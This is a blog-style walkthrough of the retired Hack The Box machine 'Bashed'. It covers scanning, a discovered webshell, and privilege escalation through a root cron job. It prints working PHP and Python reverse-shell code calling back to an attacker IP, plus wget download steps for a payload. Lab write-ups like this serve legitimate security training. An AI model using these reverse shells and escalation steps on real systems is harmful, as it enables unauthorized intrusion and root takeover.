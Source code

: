 ```yaml
---
layout: post
title: HacktheBox - Bashed
subtitle: Retired Machine
tags: [htb]
comments: false
---
```


![propic](/pictures/bashed/bashedpic.png) ## Bashed

Start off with a network scan:
```
nmap -sV -sC -Pn -oA nmap/bashed 10.10.10.68
```
![bashednmap](/pictures/bashed/bashednmap.png)

There is an open port 80 (http) from the default nmap script. We can visit the web page from your browser to look for clues.

![bashedhomepage](/pictures/bashed/bashed_homepage.png)

There is nothing too interesting from the initial look so I will run gobuster to identify any hidden directories.

```
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![basheddirb](/pictures/bashed/bashed_dirb.png)

Off the bat, there are several subdirectories that pop up. I navigate to /dev and see the phpbash.php file. I click on the php file and obtain a webshell.

![bashedwebshell](/pictures/bashed/bashed_webshell.png)

Next, I want to create a persistent/reverse shell, so I go to pentestmonkey reverse shell cheat sheet and look for a php reverse shell command:
```
php -r '$sock=fsockopen("10.10.14.8",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
Then on my attack host, I create a listener with netcat:
```
nc -lvnp 1234
```
This does not work, so I navigate to /var/www/html and view the uploads directory since that was a listed subdirectory that can be hit from the web i.e. 10.10.10.68/uploads.

From my attacker box, I run the command below to find a php reverse shell file to upload to the target based on the following keywords:
```
locate php reverse
```
I moved the php-reverse-shell.php file to /tmp. I update the file to listen on my attacker host ip and started up an http server via python with the following commands:
```
cp -r /usr/share/webshells/php/php-reverse-shell.php /tmp/php-reverse-shell.php
cd /tmp
python3 -m http.server 80
```
Now that the attacker box's http server is up and running, I can run wget from /var/www/html/uploads to obtain the file from the target's box through the obtained web shell:
```
wget 10.10.14.8/php-reverse-shell.php
```
Next, I ensure my netcat listener is still active over port 1234 and navigate to 10.10.10.68/uploads/php-reverse-shell.php on my browser. 

And voila, I have a reverse shell. I run the following command to upgrade the shell to a TTY:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Next is to escalate privileges. To check my current permissions, I run the command:

```
sudo -l
```
This lists that I can run all commands under the user: scriptmanager.

So, I can go ahead and run the command to get a bash shell as the scriptmanager user:
```
sudo -u scriptmanager bash
```
I run an ls-la and see that scriptmanager owns scripts/test.py which is writing to scripts/test.txt. It appears that test.txt is owned under root.

Since test.py is writing to test.txt, this means that root has a cronjob scheduled for this python script to run. This means that if the python script runs a reverse shell, it will be under root since root has the job under its ID.So, I open up a reverse shell cheatsheet from pentestmonkey and look for a python reverse shell.

I attempt to update the script via vim, but the text editor is wonky. So, I decide to delete the file's content with the command:
```
sed -i "d" test.py
```
Next, I echo each line into the python file:
```
echo 'import socket,subprocess,os' >> test.py
echo 's=socket.socket(socket.AF_INET,socket.SOCK_STREAM)' >> test.py
echo 's.connect(("10.10.14.8",1234))' >> test.py
echo 'os.dup2(s.fileno(),0)' >> test.py
echo 'os.dup2(s.fileno(),1)' >> test.py
echo 'os.dup2(s.fileno(),2)' >> test.py
echo 'p=subprocess.call(["/bin/sh","-i"])' >> test.py
cat test.py
```
The cat command will show the contents of test.py having all the required lines for the reverse shell to complete. Next, I open up the listener via netcatover 1234 on my attack box, and get the root reverse shell.

![bashedroot](/pictures/bashed/bashed_root.png)
